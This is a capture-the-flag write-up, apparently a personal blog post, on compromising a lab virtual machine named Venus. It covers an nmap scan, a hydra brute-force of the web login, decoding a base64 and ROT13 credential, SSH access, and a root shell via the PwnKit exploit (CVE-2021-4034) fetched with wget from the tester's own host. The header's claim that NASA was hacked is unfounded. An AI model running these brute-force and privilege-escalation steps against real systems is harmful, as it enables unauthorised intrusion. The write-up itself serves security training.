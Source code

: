 ```yaml
---
layout: post
title: Venus
date: 27-05-2025
categories: [medium]
tags: [CVE]
image: "https://images.theconversation.com/files/404401/original/file-20210604-13-128m0ja.jpg"
---
```


>Nasa have been hacked and this was reveled about nasa
{: .prompt-tip }


## Scanning
```
Stats: 0:00:11 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 01:30 (0:00:06 remaining)
Nmap scan report for 192.168.56.107
Host is up (0.00022s latency).
Not shown: 987 filtered tcp ports (no-response), 11 filtered tcp ports (admin-prohibited)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.5 (protocol 2.0)
| ssh-hostkey: 
|   256 b0:3e:1c:68:4a:31:32:77:53:e3:10:89:d6:29:78:50 (ECDSA)
|_  256 fd:b4:20:d0:d8:da:02:67:a4:a5:48:f3:46:e2:b9:0f (ED25519)
8080/tcp open  http    WSGIServer 0.2 (Python 3.9.5)
|_http-title: Venus Monitoring Login
MAC Address: 08:00:27:18:54:5E (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.02 seconds

```
![image](https://github.com/user-attachments/assets/c2107323-86e9-4416-a312-14c25cb2180d)


## Enumartion 

By using the port 8080 running the http-proxy server, finsing the posible users in the system
Using the user guest:guest we can see in the reques there is the vlidation auth exncripted with base64, so lets try to fins the other users in the sys.
>This it need more partient.
{: .prompt-tip }

```

~/Desktop/redteam/hack/vernus » hydra -L /usr/share/wordlists/rockyou.txt -p guest -s 8080 192.168.56.107 http-post-form "/:username=^USER^&password=^PASS^:Invalid username." 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-26 22:37:05
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:14344399/p:1), ~896525 tries per task
[DATA] attacking http-post-form://192.168.56.107:8080/:username=^USER^&password=^PASS^:Invalid username.
[STATUS] 4328.00 tries/min, 4328 tries in 00:01h, 14340071 to do in 55:14h, 16 active
[8080][http-post-form] host: 192.168.56.107   login: venus   password: guest
[STATUS] 4356.33 tries/min, 13069 tries in 00:03h, 14331330 to do in 54:50h, 16 active
[STATUS] 4360.86 tries/min, 30526 tries in 00:07h, 14313873 to do in 54:43h, 16 active
[STATUS] 4380.27 tries/min, 65704 tries in 00:15h, 14278695 to do in 54:20h, 16 active
[8080][http-post-form] host: 192.168.56.107   login: magellan   password: guest
[8080][http-post-form] host: 192.168.56.107   login: guest   password: guest
[STATUS] 4370.16 tries/min, 135475 tries in 00:31h, 14208924 to do in 54:12h, 16 active





```
## Initial access
i found the vulneurability is in the page '/' that refrect the authentic cypher on the client side req
so i have to use the credentials of the uses i have get and see if i can manage to get the access to the target, so i have to convert the user and the same pass into base64 and find the loocation were there is the out put break in the system.
finslly i get this and it was encoded of user magellan
bWFnZWxsYW46aXJhaGZ2bmF0cmJ5YnRsMTk4OQ==

decrep using base64 and try to identfy the ype of cypher in the user name it was ROT13 then i used the credentials see the picture bellow

![Screenshot From 2025-05-26 23-10-50](https://github.com/user-attachments/assets/e4772143-8a60-4611-9c26-7d67b15249a7)


![Screenshot From 2025-05-26 23-08-55](https://github.com/user-attachments/assets/8aa2a572-3d56-456a-8d3b-1d60eedbfb92)


```
~/Desktop/redteam/hack/vernus » ssh magellan@192.168.56.107                                 255 ↵ cyberkid@cyberkiddle
magellan@192.168.56.107's password: 
Last failed login: Mon May 26 21:05:09 BST 2025 from 192.168.56.1 on ssh:notty
There was 1 failed login attempt since the last successful login.
[magellan@venus ~]$ 




```
Weldone if you have reached in this stage your very awesome lets get the root account.

## Privilage esc
This exploit it need very well understanding in payloads and mashine learning but cool just simple to get ride of
https://codeload.github.com/berdav/CVE-2021-4034/zip/main
This is the link to the exploit have nice time exploire how to use th exploit.

>Finding more strength to the user.
{: .prompt-tip }

```

[magellan@venus tmp]$ mkdir lilly
[magellan@venus tmp]$ cd lilly/
[magellan@venus lilly]$ wget http://192.168.56.1:8000/CVE-2021-4034-main.zip
--2025-05-26 23:25:44--  http://192.168.56.1:8000/CVE-2021-4034-main.zip
Connecting to 192.168.56.1:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6457 (6.3K) [application/zip]
Saving to: ‘CVE-2021-4034-main.zip’

CVE-2021-4034-main.zip        100%[================================================>]   6.31K  --.-KB/s    in 0s      

2025-05-26 23:25:44 (78.3 MB/s) - ‘CVE-2021-4034-main.zip’ saved [6457/6457]

[magellan@venus lilly]$ ls
CVE-2021-4034-main.zip
[magellan@venus lilly]$ unzip CVE-2021-4034-main.zip 
Archive:  CVE-2021-4034-main.zip
55d60e381ef90463ed35f47af44bf7e2fbc150d4
   creating: CVE-2021-4034-main/
  inflating: CVE-2021-4034-main/.gitignore  
  inflating: CVE-2021-4034-main/LICENSE  
  inflating: CVE-2021-4034-main/Makefile  
  inflating: CVE-2021-4034-main/README.md  
  inflating: CVE-2021-4034-main/cve-2021-4034.c  
  inflating: CVE-2021-4034-main/cve-2021-4034.sh  
   creating: CVE-2021-4034-main/dry-run/
  inflating: CVE-2021-4034-main/dry-run/Makefile  
  inflating: CVE-2021-4034-main/dry-run/dry-run-cve-2021-4034.c  
  inflating: CVE-2021-4034-main/dry-run/pwnkit-dry-run.c  
  inflating: CVE-2021-4034-main/pwnkit.c  
[magellan@venus lilly]$ cd CVE-2021-4034-main/
[magellan@venus CVE-2021-4034-main]$ ls
LICENSE  Makefile  README.md  cve-2021-4034.c  cve-2021-4034.sh  dry-run  pwnkit.c
[magellan@venus CVE-2021-4034-main]$ make
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /usr/bin/true GCONV_PATH=./pwnkit.so:.
[magellan@venus CVE-2021-4034-main]$ ls
'GCONV_PATH=.'   Makefile    cve-2021-4034     cve-2021-4034.sh   gconv-modules   pwnkit.so
 LICENSE         README.md   cve-2021-4034.c   dry-run            pwnkit.c
[magellan@venus CVE-2021-4034-main]$ ./cve-2021-4034
sh-5.1# whoami
root
sh-5.1# 



```
![image](https://github.com/user-attachments/assets/a3d4c4cc-0655-4d1f-bcba-8b41b6a6d7db)

>Hi I thing it was so tough.
{: .prompt-tip }
